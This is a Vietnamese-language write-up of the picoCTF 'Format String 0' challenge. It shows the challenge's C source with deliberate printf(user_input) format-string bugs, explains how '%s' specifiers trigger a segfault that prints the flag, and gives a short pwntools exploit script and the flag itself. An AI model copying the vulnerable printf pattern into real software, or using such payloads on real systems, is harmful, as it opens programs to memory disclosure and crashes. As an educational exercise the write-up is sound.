 # Format String 0
Với tên đề bài thì ta có thể đoán được đây sẽ là một bài khai thác lỗ hổng [format-string](https://owasp.org/www-community/attacks/Format_string_attack).

Đầu tiên ta mở challenge ra, thấy có file nhị phân `format-string-0` và file .c `format-string-0.c`
Chạy thử file nhị phân thì ta thấy:

![image](https://github.com/user-attachments/assets/06711bf9-3b90-472e-9d90-1215970076e7)

Có vẻ như đây là một chương trình yêu cầu khách hàng lựa chọn menu ở quán burger mới mở tại `Pico 'n Patty`.

Sau đó ta xem file .c
``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 32
#define FLAGSIZE 64

char flag[FLAGSIZE];

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

int on_menu(char *burger, char *menu[], int count) {
    for (int i = 0; i < count; i++) {
        if (strcmp(burger, menu[i]) == 0)
            return 1;
    }
    return 0;
}

void serve_patrick();

void serve_bob();


int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}

void serve_patrick() {
    printf("%s %s\n%s\n%s %s\n%s",
            "Welcome to our newly-opened burger place Pico 'n Patty!",
            "Can you help the picky customers find their favorite burger?",
            "Here comes the first customer Patrick who wants a giant bite.",
            "Please choose from the following burgers:",
            "Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}

void serve_bob() {
    printf("\n%s %s\n%s %s\n%s %s\n%s",
            "Good job! Patrick is happy!",
            "Now can you serve the second customer?",
            "Sponge Bob wants something outrageous that would break the shop",
            "(better be served quick before the shop owner kicks you out!)",
            "Please choose from the following burgers:",
            "Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
}
```

Quan sát thì ta thấy có hàm `sigsegv_handler` sẽ in `flag`

``` c
void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
```

Nhìn xuống hàm main(), ta thấy dòng 

``` c
signal(SIGSEGV, sigsegv_handler);
```

Dòng này cho ta biết rằng khi chương trình nhận tín hiệu SIGSEGV, thay vì dừng ngay lập tức, chương trình sẽ gọi hàm `sigsegv_handler`.

$->$ Được rồi, giờ mục tiêu của chúng ta sẽ là làm cho chương trình nhận tín hiệu SIGSEGV. 

Quay lại với hoạt động của chương trình. Đầu tiên hàm `serve_patrick()` sẽ được gọi. Và ta để ý dòng code:

``` c
int count = printf(choice1);
if (count > 2 * BUFSIZE) {
    serve_bob();
}
```

Ta thấy rằng ở đây có một lỗi `format-string` và nếu độ dài được in ra lớn hơn 64 ( $64 = 2 \times 32 $) thì hàm `serve_bob()` sẽ được gọi.

Xuống hàm `serve_bob()` thì ta thấy:
``` c
char choice2[BUFSIZE];
scanf("%s", choice2);
char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
```

Tiếp tục, đây cũng có một lỗi `format-string` và chương trình sẽ in mảng char `choice2` ra luôn. Nhìn thực đơn được cho thì ta thấy `Cla%sic_Che%s%steak` sẽ làm cho chương trình nhận tín hiện SIGSEGV (Lấy flag) bởi vì:
- Trong chuỗi có 3 đoạn format specifier `%s`, 3 đoạn này sẽ lấy 3 địa chỉ con trỏ kiểu `char*` từ stack rồi in ra chuỗi ký tự bắt đầu từ địa chỉ đó, đến khi gặp ký tự kết thúc chuỗi `\0`. 
- Nếu không có tham số truyền kèm, `printf` sẽ lấy giá trị ngẫu nhiên trên stack làm địa chỉ. Và địa chỉ ngẫu nhiên này thường **không hợp lệ**.
- Khi `printf` cố gắng đọc tại địa chỉ này, chương trình sẽ nhận tín hiệu SIGSEGV và hàm `sigsegv_handler` sẽ được gọi rồi in ra flag.

Từ những phân tích trên, ta có file exploit như sau:
``` python 
from pwn import*
p = process("format-string-0")
#p = remote('mimas.picoctf.net', 53531)
payload1 = "Gr%114d_Cheese"
payload2 = "Cla%sic_Che%s%steak"
p.sendline (payload1)
p.sendline (payload2)
p.interactive()
```

Và ta có được flag.

![image](https://github.com/user-attachments/assets/eaa243cb-52a9-4d5f-9c0c-adb755645a59)

Flag: picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_63191ce6}
